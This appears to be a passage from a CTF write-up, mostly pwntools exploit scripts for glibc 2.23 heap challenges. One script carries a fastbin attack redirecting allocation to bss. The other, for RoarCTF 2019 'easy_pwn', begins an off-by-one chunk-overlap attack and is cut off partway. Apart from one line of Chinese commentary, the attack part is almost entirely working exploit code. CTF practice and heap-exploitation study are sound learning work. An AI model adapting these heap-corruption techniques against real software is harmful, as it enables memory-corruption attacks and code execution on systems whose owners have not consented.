 ```python

bss = 0x6020C0

create(0x18,"aaaa")	#0
create(0x80,"bbbb")	#1
create(0x18,"cccc")	#2
#gdb.attach(p)
#pause()

delete(1)
edit(0,0x40,"\x00"*0x18 +p64(0x91) + p64(0x10)  +p64(bss-0x10))

create(0x80,p64(9999))
back()
p.interactive()
```

把bss当fastbin来打，会产生memory corruption

## roarctf-2019-easy_pwn

```py
from pwn import *
#from LibcSearcher import LibcSearcher
context.log_level='debug'
context.arch="amd64"
#p = remote("node3.buuoj.cn",28967)
p = process(['/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so',"./easy"],env={'LD_PRELOAD':'/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6'})
libc = ELF('/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')


def malloc(size):
	p.sendlineafter("choice: ","1")
	p.sendlineafter("size: ",str(size))

def fill(id,size,content):
	p.sendlineafter("choice: ","2")
	p.sendlineafter("index: ",str(id))
	p.sendlineafter("size: ",str(size))
	p.sendafter("content: ",content)

def free(id):
	p.sendlineafter("choice: ","3")
	p.sendlineafter("index: ",str(id))

def show(id):
	p.sendlineafter("choice: ","4")
	p.sendlineafter("index: ",str(id))


malloc(24)
malloc(24)
malloc(0x90)
malloc(24)

fill(0,34,"a"*0x10 + p64(0x20) + p8(0xa1))
print len("a"*0x10 + p64(0x20) + p8(0xa1))
fill(2,0x80,p64(0)*15 + p64(0x21))

free(1)
malloc(0x90)
fill(1,0x20,p64(0)*3 + p64(0xa1))
```